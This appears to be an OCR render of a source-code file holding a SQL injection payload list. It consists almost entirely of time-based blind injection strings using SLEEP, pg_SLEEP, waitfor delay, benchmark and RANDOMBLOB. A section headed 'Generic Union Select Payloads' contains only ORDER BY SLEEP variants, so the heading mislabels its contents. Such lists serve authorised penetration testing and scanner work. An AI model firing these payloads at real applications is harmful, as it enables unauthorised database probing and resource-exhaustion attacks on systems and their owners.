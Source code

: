           or SLEEP(5)--
          or SLEEP(5)="
          or SLEEP(5)='
          waitfor delay '00:00:05'
          waitfor delay '00:00:05'--
          waitfor delay '00:00:05'#
          benchmark(50000000,MD5(1))
          benchmark(50000000,MD5(1))--
          benchmark(50000000,MD5(1))#
          or benchmark(50000000,MD5(1))
          or benchmark(50000000,MD5(1))--
          or benchmark(50000000,MD5(1))#
          pg_SLEEP(5)
          pg_SLEEP(5)--
          pg_SLEEP(5)#
          or pg_SLEEP(5)
          or pg_SLEEP(5)--
          or pg_SLEEP(5)#
          '\"
          AnD SLEEP(5)
          AnD SLEEP(5)--
          AnD SLEEP(5)#
          &&SLEEP(5)
          &&SLEEP(5)--
          &&SLEEP(5)#
          ' AnD SLEEP(5) ANd '1
          '&&SLEEP(5)&&'1
          ORDER BY SLEEP(5)
          ORDER BY SLEEP(5)--
          ORDER BY SLEEP(5)#
          (SELECT * FROM (SELECT(SLEEP(5)))ecMj)
          (SELECT * FROM (SELECT(SLEEP(5)))ecMj)#
          (SELECT * FROM (SELECT(SLEEP(5)))ecMj)--
          +benchmark(3200,SHA1(1))+'
          + SLEEP(10) + '
          RANDOMBLOB(500000000/2)
          AND 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))
          OR 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))
          RANDOMBLOB(1000000000/2)
          AND 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
          OR 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
          SLEEP(1)/*' or SLEEP(1) or '" or SLEEP(1) or "*/ 
          
## Generic Union Select Payloads

           ORDER BY SLEEP(5)
           ORDER BY 1,SLEEP(5)
           ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A'))
           ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4
           ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5
           ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6
           ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7
           ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8
           ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9
           ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10
           ORDER BY SLEEP(5)#
           ORDER BY 1,SLEEP(5)#
           ORDER BY 1,SLEEP(5),3#
           ORDER BY 1,SLEEP(5),3,4#
           ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5#
           ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6#
           ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7#
           ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8#